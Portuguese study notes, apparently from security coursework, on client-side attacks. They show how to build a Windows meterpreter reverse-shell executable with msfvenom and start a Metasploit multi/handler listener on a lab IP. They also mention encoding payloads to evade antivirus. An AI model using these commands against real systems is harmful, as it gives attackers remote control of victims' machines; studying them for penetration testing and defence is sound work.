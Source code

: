 # Conceito

- Não é explorada uma vunerabilidade do sistema, mas a falha humana.
- Consiste de enviar um payload à máquina alvo e esperar a sua execução. O payload é executado pelo próprio usuário da máquina alvo.

## Criação do payload - msfvenom

O **`msfvenom`** é uma ferramenta do **Metasploit Framework**, usada principalmente para **criar payloads** maliciosos customizados.

O `msfvenom` permite que você:
* **Gere executáveis maliciosos** (ex.: `.exe`, `.apk`, `.elf`, `.ps1`) que, quando executados, dão controle remoto da máquina para o atacante.
* **Incorpore payloads em arquivos existentes** (ex.: PDF, imagem, etc.).
* **Codifique/encode** o payload com diferentes métodos para dificultar detecção por antivírus.
* **Escolha formatos de saída** (binário cru, executável, código fonte em C, Python, Powershell etc.).
Criando um arquivo executável...  
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell1.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell1.exe
```

## Listening
Após o payload ser enviado, começamos a escutar a rede, aguardando o pauload ser executado.
- É necessário estar executando o listening antes da execução do playload.

Iniciando a escuta...
```
$ msfconsole
Metasploit tip: Use sessions -1 to interact with the last opened session
                                                  
       =[ metasploit v6.4.69-dev                          ]
+ -- --=[ 2529 exploits - 1302 auxiliary - 432 post       ]
+ -- --=[ 1672 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
```
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```
```
msf6 exploit(multi/handler) > show options

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
Necessitamos alterar o payload do listenner para o mesmo payload do arquivo executável.
```
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```
E configurar o IP da máquina de escuta
```
msf6 exploit(multi/handler) > set LHOST 192.168.1.10 
LHOST => 192.168.1.10
```
Verificando uma última vez...
```
msf6 exploit(multi/handler) > show options

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none
                                        )
   LHOST     192.168.1.10     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
Tudo certo para iniciar a escuta...
```
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:4444
```
      
